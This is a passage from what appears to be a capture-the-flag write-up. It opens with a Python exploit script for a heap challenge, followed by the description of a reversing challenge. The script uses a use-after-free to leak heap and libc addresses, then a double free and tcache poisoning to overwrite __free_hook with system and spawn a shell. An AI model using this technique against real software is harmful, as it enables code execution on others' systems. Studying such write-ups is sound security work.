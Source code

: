 ```python  
# remove(0) #1->0  
# heap_addr = u64(view(0) + '\x00\x00') - 0x13290  
# print hex(heap_addr)  
#now 0 is UAF don't touch it

#2. leak libc, want UAF of unsorted bin  
add() #0  
add("U" * 0x800, 'A' * 0x800) #1  
add("sep") #2 seperator  
#also, it seems in this operation the vector will be extended,  
#copy constructor of `kv` will also be called,  
#(btw I guess the source code did not use r-value reference in C++11)  
#I think it is this that makes leak possible  
#but it was found by trial and error initially

remove(2)  
remove(0) # 1->0

libc_addr = u64(view(0) + '\x00\x00') - 0x3ebca0  
print hex(libc_addr)

#3. rewrite __free_hook and getshell  
add() #1  
add('\x00', 'D' * 0xb0) #2

remove(1)  
remove(1)  
#double free

#0xc0 tcache poisoned  
add('\x00', p64(libc_addr + e.symbols["__free_hook"]).ljust(0xb0, '\x00'))  
add('\x00', p64(libc_addr + e.symbols["system"]).ljust(0xb0, '\x00'))

sh.sendline("1")  
sh.recvuntil("name: ")  
sh.sendline("/bin/sh")  
sh.recvuntil("buf: ")  
sh.sendline("/bin/sh")

sh.interactive()  
```

## 500 Reversing / Plaid Party Planning III 2 ##

**Description**

> [This binary](files/pppiii_450cfae15d4434c4f5fe320fae78ec40) has a fix for
> an unintentional solution. Let's keep the party going.  
>  
> NOTE: We have pushed an updated binary. This update fixes a bug in the check
> function and should hopefully make the check function easier to understand.
> The diff with the binary below should be minimal. Apologies.  
>  
> The previous Plaid Party Planning III 2 binary.
